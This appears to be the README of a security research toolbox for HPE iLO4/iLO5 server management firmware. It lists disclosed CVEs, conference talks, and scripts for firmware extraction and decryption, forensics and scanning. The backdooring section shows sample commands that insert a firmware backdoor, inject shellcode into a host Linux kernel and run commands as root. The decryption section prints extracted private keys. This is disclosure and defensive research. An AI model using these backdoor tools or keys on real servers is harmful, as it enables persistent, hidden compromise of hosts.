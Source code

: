 Subverting your server through its BMC: the HPE iLO4 case
=========================================================


Introduction
------------

``iLO`` is the server management solution embedded in almost every ``HPE``
servers for more than 10 years. It provides every feature required by a system
administrator to remotely manage a server without having to reach it
physically. Such features include power management, remote system console,
remote CD/DVD image mounting, as well as many monitoring indicators.

We've performed a deep dive security study of ``HPE iLO4`` (known to be used on
the family of servers ``HPE ProLiant Gen8`` and ``ProLiant Gen9`` servers) and
the results of this study were presented at the **REcon** conference held in
Brussels (February 2 - 4, 2018, see [1]_).

A follow-up of our study was presented at the **SSTIC** conference, held in
France (Rennes, June 13 - 15, 2018, see [8]_). We focused this talk on
firmware backdooring and achieving long-term persistence.

In November 2018, we presented our latest research on ``HPE iLO4`` and
``iLO5`` at **ZeroNights** conference, held in Saint-Petersburg, Russia
(November 20 - 21, 2018, see [11]_). This talk was focused on the attack
surface exposed to the host operating system and on the new secure boot
feature (silicon root of trust) introduced with ``iLO5``.

``iLO4`` runs on a dedicated ``ARM`` processor embedded in the server,
and is totally independent from the main processor. It has a dedicated flash
chip to hold its firmware, a dedicated RAM chip and a dedicated network
interface. On the software side, the operating system is the proprietary RTOS
GreenHills Integrity [2]_.


Results
-------

One critical vulnerability was identified and reported to the ``HPE PSRT`` in
February 2017, known as ``CVE-2017-12542`` (``CVSSv3`` base score 9.8 [3]_) :

* Authentication bypass and remote code execution
* Fixed in ``iLO4`` versions ``2.53`` (released in May 2017, buggy) and ``2.54`` [4]_


A second critical vulnerability was identified in  ``iLO4`` and  ``iLO5`` . It
was reported to the ``HPE PSRT`` in April 2018 and is known as
``CVE-2018-7078`` (``CVSSv3`` base score 7.2 [9]_, ``HPE`` Security Bulletin
``HPESBHF03844`` [10]_) :

* Remote or local code execution
* Fixed in ``iLO4`` version ``2.60`` (released in May 2018)
* Fixed in ``iLO5`` version ``1.30`` (released in June 2018)


A critical vulnerability was identified in the implementation of the
secure boot feature of ``iLO5``. It was reported to the ``HPE PSRT`` in
September 2018 and is known as ``CVE-2018-7113`` (``CVSSv3`` base score 6.4 [12]_,
``HPE`` Security Bulletin ``HPESBHF03894`` [13]_):

* Local Bypass of Security Restrictions
* Fixed in ``iLO5`` version ``1.37`` (released in October 2018)


Finally another critical vulnerability allowing host to iLO arbitrary code
execution was reported to ``HPE`` in Feb 2021 and is known as
``CVE-2021-29202`` (``CVSSv3`` base score 6.4, ``HPE`` Security Bulletins
``HPESBHF04121`` [19]_ and ``HPESBHF04133`` [20]_). It impacts ``iLO4`` and
``iLO5``.


Slides and demos
----------------

REcon Brussels 2018
*******************

The slides from our **REcon** talk are available here_ . They cover the
following points:

* Firmware unpacking and memory space understanding
* GreenHills OS Integrity internals:

    * kernel object model
    * virtual memory
    * process isolation

* Review of exposed attack surface: ``www``, ``ssh``, *etc.*
* Vulnerability discovery and exploitation
* Demonstration of a new exploitation technique that allows to
  compromise the host server operating system through DMA.


To illustrate them, we also release the three demos as videos. The first one
demonstrates the use of the vulnerability we discovered to bypass the
authentication from the RedFish API:


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo1_connection_bypass.gif
    :width: 100%
    :align: center

In the second one we show how the vulnerability can also be turned into an
arbitrary remote code execution (``RCE``) in the process of the web server;
allowing read access to the ``iLO`` file-system for example.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo2_dump_users.gif
    :width: 100%
    :align: center

Finally, in  the third videos, we leverage this ``RCE`` to exploit an ``iLO4``
feature which allows us to access (``RW``) to the host memory and inject a
payload in the host Linux kernel.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo3_host_pwn.gif
    :width: 100%
    :align: center


SSTIC 2018
**********

The slides from our **SSTIC** talk are available at this location_ (more
details can be found in the paper_). After a brief recap of our **REcon**
talk, we propose the following new materials:

* Firmware security and boot chain analysis
* Backdoor architecture

To illustrate these works, we release a new demo as video. It demonstrates
the use of the vulnerability we discovered in the web server to flash a new
backdoored firmware. Then we demonstrate the use of the DMA communication
channel to execute arbitrary commands on the host system.

.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo4_backdoor.gif
    :width: 100%
    :align: center


ZeroNights 2018
***************

The material we presented at **ZeroNights** is available from there_. It
contains two major contributions.

First, an analysis of the communication channel between the host system and
the ``iLO`` (``4`` or ``5``), known as ``CHIF`` channel interface. It opens a
new attack surface,  exposed to the host (even though ``iLO`` is set as
disabled). We demonstrated that the exploitation of ``CVE-2018-7078`` could
allow us to flash a backdoored firmware from the host through this interface.

Then, an in-depth review of the new secure boot feature introduced with
``iLO5`` and ``HPE Gen10`` server line. It covers the complete bootchain, from
the ``iLO ASIC`` (silicon root of trust) down to the ``Integrity`` kernel and
userland images. We discovered a logic error (``CVE-2018-7113``) in the kernel
code responsible for the integrity verification of the userland image, which
can be exploited to break the chain-of-trust.

To illustrate this defeat of the secure boot feature, we propose the new video
below. It demonstrates the exploitation of the logic error to update the
``iLO5`` firmware with a compromised firmware embedding a backdoored userland
image in which the banner of the ``SSH`` server has been altered.


.. image:: https://github.com/airbus-seclab/ilo4_toolbox/blob/master/demos/demo5_secure_boot.gif
    :width: 100%
    :align: center


A proof of concept implementing the secure boot bypass alone is available in
``ilo5_PoC_secure_boot_bypass.py``. The ``fum`` vulnerability and ``HP Signed File``
signature bypass is demonstrated in ``ilo5_PoC_fum_sig_bypass.py``.



Insomni’Hack 2019
*****************

The slides from our talk at **Insomni’Hack**, available from this link_,
intend to wrap-up most of our work on the ``iLO 4`` and  ``5`` systems.

A brief analysis of the anti-downgrade feature is introduced, as well as a
teaser on the whitepaper_ we published in collaboration with Adrien Guinet
(from Quarkslab) on *How to defeat NotPetya from your iLO4*.



SSTIC 2021
**********

In this new iteration of our work, presented at SSTIC (paper [17]_ and slides
[18]_), we propose an extensive analysis of the new firmware encryption
mechanism introduced with HPE iLO5 firmware versions 2.x. The new boot chain,
as well as the cryptographic co-processor this feature relies upon are
presented, as well as our attack to extract the encryption keys from the
system-on-chip(SOC).



Black Hat USA 2021
******************

This talk goes back to the research we presented at SSTIC 2021, with more
details given on some OS-level features and exploitation tricks though. Also,
the slides [21]_ are in English.



Related works
-------------

A critical vulnerability was identified by Nicolas Iooss from The French
National Cybersecurity Agency (ANSSI) in the ``SSH`` service of ``iLO3``,
``iLO4`` and  ``iLO5`` . It was reported to the ``HPE PSRT`` in April 2018 and
is known as ``CVE-2018-7105`` (``CVSSv3`` base score 7.2 [14]_, ``HPE``
Security Bulletin ``HPESBHF03866`` [15]_) :

* Remote execution of arbitrary code, local disclosure of sensitive information
* Fixed in ``iLO3`` version ``1.90`` (released in August 2018)
* Fixed in ``iLO4`` version ``2.61`` (released in September 2018)
* Fixed in ``iLO5`` version ``1.35`` (released in August 2018)

Thank you Nicolas for sharing test and exploitation scripts for this issue.

Using this vulnerability it is also possible to play with ``PCILeech`` on
``HP iLO4`` without the need for a modified firmware. Although very slow for
a big memory dump, it works very well when targeting specific memory location, as
done by the Windows KMD load in ``PCILeech``. See the ``PCILeech HP iLO4
Service`` repository [16]_.


Tooling
-------

To support our research we've developed scripts and tools to help us
automatize some tasks, especially firmware unpacking and mapping.


Firmware
********

``ilo4_extract.py`` script takes an ``HP Signed file`` as input (obtained from
the update package). It is invoked with:

::

    >python ilo4_extract.py ilo4_244.bin extract


Extract from the output log:

::

    [+] iLO Header 0: iLO4 v 2.44.7 19-Jul-2016
      > magic              : iLO4
      > build_version      :  v 2.44.7 19-Jul-2016
      > type               : 0x08
      > compression_type   : 0x1000
      > field_24           : 0xaf8
      > field_28           : 0x105f57
      > decompressed_size  : 0x16802e0
      > raw_size           : 0xd0ead3
      > load_address       : 0xffffffff
      > field_38           : 0x0
      > field_3C           : 0xffffffff
      > signature


From the extracted file, ``ilo0.bin`` is the ``Integrity`` applicative image
(userland). It contains all the tasks that will run on the ``iLO`` system. To
parse each of these tasks and generate the ``IDA Pro`` loading script, one can
use the script ``dissection.rb``.

It relies upon the ``Metasm`` framework [5]_ and also requires the ``Bindata``
library [6]_.

::

    >ruby dissection.rb ilo0.bin


Back to the kernel image, ``ilo4_extract.py`` told us that:

::

    [+] iLO Header 1: iLO4 v 0.8.36 16-Nov-2015
      > magic              : iLO4
      > build_version      :  v 0.8.36 16-Nov-2015
      > type               : 0x02
      > compression_type   : 0x1000
      > field_24           : 0x9fd
      > field_28           : 0x100344
      > decompressed_size  : 0xc0438
      > raw_size           : 0x75dad
      > load_address       : 0x20001000
      > field_38           : 0x0
      > field_3C           : 0xffffffff

Using ``IDA Pro`` to load the extracted file ``ilo1.bin`` at ``0x20001000`` as
``ARM`` code, one can also study the ``Integrity`` kernel.


* ``secinfo4.py`` parses the section information embedded into the kernel image
  and creates the appropriate memory segment in the disassembler
* ``parse_mr.py`` dumps the registered ``Memory Region`` objects


``iLO5`` format differs slightly but is supported as well. ``ilo5_extract.py``
and  ``dissection.rb`` scripts can be used in the same way as for ``iLO4`` to
extract the ``Integrity`` applicative image.


Firmware encryption
*******************

Starting with ``iLO5`` verions ``2.x``, newer firmware are encrypted. The
external enveloppe can be removed using the script ``ilo5_fw_decrypt.py``.

::

    >python ilo5_fw_decrypt.py --infile ilo5_235.bin
    [+] input file: "ilo5_235.bin"
    [+] skipping HP Signed File fingerprint (2088 bytes)
    [+] loading RSA pem ("rsa_private_key_ilo5.asc")
    > key size: 4096
    [+] aes key material
    > aes key: c2447180a96f6ec4b23ed5539a63548118573ccfb9866f5cacf8f13c42c5acbe
    > aes iv: d13dcf4b12248561479488ad
    --

    [+] decrypting
    > ok
    [+] writing output file "ilo5_235.clear.bin":

               ┌───────────────  firmware header  ───────────────┬──────────────────┐
    0x00000000 │ 6e 65 62 61 39 20 30 2e 31 30 2e 31 33 00 00 00 │ neba9 0.10.13... │
    0x00000010 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x00000020 │ 1a 41 dd 4e 02 00 00 00 05 00 01 00 04 00 00 00 │ .A.N............ │
    0x00000030 │ 00 00 00 00 00 00 00 00 50 8f 61 6b 00 00 00 00 │ ........P.ak.... │
    0x00000040 │ 44 56 00 00 fe 10 5e d7 44 56 00 00 44 56 00 00 │ DV....^.DV..DV.. │
    0x00000050 │ ff ff ff ff 00 00 00 00 02 00 00 00 2b 04 f2 81 │ ............+... │
    0x00000060 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x00000070 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x00000080 │ 43 6f 70 79 72 69 67 68 74 20 32 30 31 39 20 48 │ Copyright 2019 H │
    0x00000090 │ 65 77 6c 65 74 74 20 50 61 63 6b 61 72 64 20 45 │ ewlett Packard E │
    0x000000a0 │ 6e 74 65 72 70 72 69 73 65 20 44 65 76 65 6c 6f │ nterprise Develo │
    0x000000b0 │ 70 6d 65 6e 74 2c 20 4c 50 00 00 00 00 00 00 00 │ pment, LP....... │
    0x000000c0 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x000000d0 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x000000e0 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x000000f0 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
               └─────────────────────────────────────────────────┴──────────────────┘
    [!] done captain


One can then proceed to the extraction of the various firmware components
using ``ilo5_extract.py``. The main userland image is also encrypted.
Depending on the version, different private keys are used. The script
``ilo5_image_decrypt.py`` comes with some private keys extracted for versions
``2.3x`` and ``2.41``.


::

    >python ilo5_image_decrypt.py --rawfile elf_secure_241.raw --hdrfile elf_secure_241.hdr
    [+] loading header file elf_secure_241.raw
    > version string: 2.41
    [+] loading elf_secure_241.raw
    [+] ec pub key
    > pub.pointQ.x: 0x484ed202be9af305af716e7eef2d8b00c6ceba7337ed980a4af96079d06e4b810c15451ba82b9ff10cd830b30376ee39
    > pub.pointQ.y: 0x9dd95b116424f44b0e23776e3ed85fa46b76b4922047f993f450ec89134bb7ea0770eaf851b04fa0e074e813ece4df4d
    --
    [+] ec priv key
    > priv.pointQ.x: 0xcf1093db93ad3bb9bb7050e88f417e7b054c37b02b01120318cd88faf5e3b957fa6fa15f64c7cd6d84bdd4e88cac6ea8
    > priv.pointQ.y: 0xb1f8f0bd675d05e7e0463823f2f30e2d85f3b75302af65e892451236baff9e15b76a3be2f5d39c37b08f6c65ee14203c
    > priv.d: 0xffa8193746dd557afe519993d8c18de66556675d840970265bfa9ba870a2cd84ff2a45d656240631cf91bdbf767c6beb
    --

    [+] shared secret:
    6c20dad5c5751a8ce7b6e012c3fbd5198c142edb9a52bf203a3102d783cbc8c7dd28bcac5739b62922b36e928daae51c
    --

    [+] aes key material
    > aes key: f16f2fa26032cc4de5c9c74d889981b54759f40add797329befaae36067878ea548a6f6a7edae2aae8f877054cfa54c0
    > aes iv: cf12bc3b76d5a386c9f74332
    --

    [+] decrypting
    > ok
               ┌───────────────  firmware header  ───────────────┬──────────────────┐
    0x00000000 │ 32 2e 34 31 2e 30 32 00 00 00 00 00 00 00 00 00 │ 2.41.02......... │
    0x00000010 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x00000020 │ 1a 41 dd 4e 02 00 00 00 00 00 21 00 05 00 00 00 │ .A.N......!..... │
    0x00000030 │ 01 00 00 00 00 00 00 00 b5 11 00 00 00 00 00 00 │ ................ │
    0x00000040 │ 05 60 ff 00 24 e0 44 c7 05 60 ff 00 88 ec e8 01 │ .`..$.D..`...... │
    0x00000050 │ ff ff ff ff 00 00 00 00 01 00 00 00 17 a6 e3 b6 │ ................ │
    0x00000060 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x00000070 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x00000080 │ 43 6f 70 79 72 69 67 68 74 20 32 30 32 31 20 48 │ Copyright 2021 H │
    0x00000090 │ 65 77 6c 65 74 74 20 50 61 63 6b 61 72 64 20 45 │ ewlett Packard E │
    0x000000a0 │ 6e 74 65 72 70 72 69 73 65 20 44 65 76 65 6c 6f │ nterprise Develo │
    0x000000b0 │ 70 6d 65 6e 74 2c 20 4c 50 00 00 00 00 00 00 00 │ pment, LP....... │
    0x000000c0 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x000000d0 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x000000e0 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
    0x000000f0 │ 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 │ ................ │
               └─────────────────────────────────────────────────┴──────────────────┘




Firmware backdooring
********************

The ``insert_backdoor.sh`` script can be run on a legitimate firmware file to
add a backdoor in the webserver module. The backdoor can then be used using
the ``backdoor_client.py`` script.

::

    >./insert_backdoor.sh ilo4_250.bin
    [...]
    [+] Firmware ready to be flashed

    >python backdoor_client.py 192.168.42.78
    [+] iLO Backdoor found
    [-] Linux Backdoor not detected
    [...]
    >>> ib.install_linux_backdoor()
    [*] Dumping kernel...
    [+] Dumped 1000000 bytes!
    [+] Found syscall table @0xffffffff81a001c0
    [+] Found sys_read @0xffffffff8121e510
    [+] Found call_usermodehelper @0xffffffff81098520
    [+] Found serial8250_do_pm @0xffffffff81528760
    [+] Found kthread_create_on_node @0xffffffff810a2000
    [+] Found wake_up_process @0xffffffff810ad860
    [+] Found __kmalloc @0xffffffff811f8c50
    [+] Found slow_virt_to_phys @0xffffffff8106c6a0
    [+] Found msleep @0xffffffff810f0050
    [+] Found strcat @0xffffffff8140c9c0
    [+] Found kernel_read_file_from_path @0xffffffff812236e0
    [+] Found vfree @0xffffffff811d7f90
    [+] Shellcode written
    [+] iLO Backdoor found
    [+] Linux Backdoor found
    >>> ib.cmd("/usr/bin/id")
    [+] Found shared memory page! 0xeab00000 / 0xffff8800eab00000
    uid=0(root) gid=0(root) groups=0(root)


Forensics
*********

The ``exploit_check_flash.py`` script can be run against an instance of ``HP
iLO4`` vulnerable to ``CVE-2017-12542``. Its purpose it to dump the content of
the flash and then compare its digest with a known "good" value.

::

    >python exploit_check_flash.py 192.168.42.78 250


Network
*******

Finally, to help people scan for existing vulnerable ``iLO`` systems exposed in
their own infrastructures, we release a simple ``Go`` scanner. It attempts to
fetch a special ``iLO`` page:  ``/xmldata?item=ALL``; if it exists, then it
extracts the firmware version and HP server type.


First edit the "``targets``" variable in the code and specify the internal
``IP`` ranges you want to scan.

::

   var (
        targets = []string{
                "10.0.0.0/8",
                "192.168.66.0/23",
                "172.16.133.0/24"}
   )


Then compile the code for your OS/architecture.

::

    > env GOOS=target-OS GOARCH=target-architecture go build iloscan.go


For example:

::

    > env GOOS=openbsd GOARCH=amd64 go build iloscan.go
    > ./iloscan

Then look the result in ``/tmp/iloscan.log`` (can be changed in the source):

::

    > less /tmp/iloscan.log
    192.168.66.69{{ RIMP} [{{ HSI} ProLiant DL380 G7}] [{{ MP} 1.80 ILOCZ2069K2S4       ILO583970CZ2069K2S4}]}

Alternatively, you can invoke the binary with a subnet on the command line (individual IP addresses should be specified as a /32 netmask):

::

    > ./iloscan 1.2.3.4/32
    Generated 1.2.3.4
    Fetching 1.2.3.4
    1.2.3.4 status: 200 OK
    {{ RIMP} [{{ HSI} ProLiant DL380 Gen9}] [{{ MP} 2.40 ILOCZJ641057H ILO826683CZJ641057H}]}


Authors
-------

* Fabien PERIGAUD - ``fabien [dot] perigaud [at] synacktiv [dot] com`` - ``@0xf4b``
* Alexandre GAZET - ``alexandre [dot] gazet [at] airbus [dot] com``
* Joffrey CZARNY  - ``snorky [at] insomnihack [dot] net`` - ``@\_Sn0rkY``



License
-------

The scripts and scanner are released under the [GPLv2]_.



References
----------

.. [1] https://recon.cx/2018/brussels/talks/subvert_server_bmc.html
.. [2] https://www.ghs.com/products/rtos/integrity.html
.. [3] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-12542
.. [4] http://h20565.www2.hpe.com/hpsc/doc/public/display?docId=hpesbhf03769en_us
.. [5] https://github.com/jjyg/metasm
.. [6] https://github.com/dmendel/bindata
.. [8] https://www.sstic.org/2018/presentation/backdooring_your_server_through_its_bmc_the_hpe_ilo4_case/
.. [9] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7078
.. [10] https://support.hpe.com/hpsc/doc/public/display?docId=emr_na-hpesbhf03844en_us
.. [11] https://2018.zeronights.ru/en/reports/turning-your-bmc-into-a-revolving-door/
.. [12] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7113
.. [13] https://support.hpe.com/hpsc/doc/public/display?docId=hpesbhf03894en_us
.. [14] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7105
.. [15] https://support.hpe.com/hpsc/doc/public/display?docId=hpesbhf03866en_us
.. [16] https://github.com/Synacktiv/pcileech_hpilo4_service
.. [17] https://airbus-seclab.github.io/ilo/SSTIC2021-Article-hpe_ilo_5_security_go_home_cryptoprocessor_youre_drunk-gazet_perigaud_czarny.pdf
.. [18] https://airbus-seclab.github.io/ilo/SSTIC2021-Slides-hpe_ilo_5_security_go_home_cryptoprocessor_youre_drunk-gazet_perigaud_czarny.pdf
.. [19] https://support.hpe.com/hpesc/public/docDisplay?docId=hpesbhf04121en_us
.. [20] https://support.hpe.com/hpesc/public/docDisplay?docId=hpesbhf04133en_us
.. [21] https://airbus-seclab.github.io/ilo/BHUSA2021-Slides-hpe_ilo_5_security_go_home_cryptoprocessor_youre_drunk-gazet_perigaud_czarny.pdf
.. [GPLv2] https://github.com/airbus-seclab/ilo4_toolbox/blob/master/COPYING
.. _here: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/RECONBRX2018-Slides-Subverting_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _location: https://github.com/airbus-seclab/airbus-seclab.github.io/blob/master/ilo/SSTIC2018-Slides-EN-Backdooring_your_server_through_its_BMC_the_HPE_iLO4_case-perigaud-gazet-czarny.pdf
.. _paper: https://airbus-seclab.github.io/ilo/SSTIC2018-Article-subverting_your_server_through_its_bmc_the_hpe_ilo4_case-gazet_perigaud_czarny.pdf
.. _there: https://airbus-seclab.github.io/ilo/ZERONIGHTS2018-Slides-EN-Turning_your_BMC_into_a_revolving_door-perigaud-gazet-czarny.pdf
.. _link: https://airbus-seclab.github.io/ilo/INSOMNIHACK2019-Slides-Riding_the_lightning_iLO4_5_BMC_security_wrapup-perigaud-gazet-czarny.pdf
.. _whitepaper: https://airbus-seclab.github.io/ilo/Whitepaper-Defeating_NotPetya_from_your_iLO4-guinet-perigaud-gazet-czarny.pdf

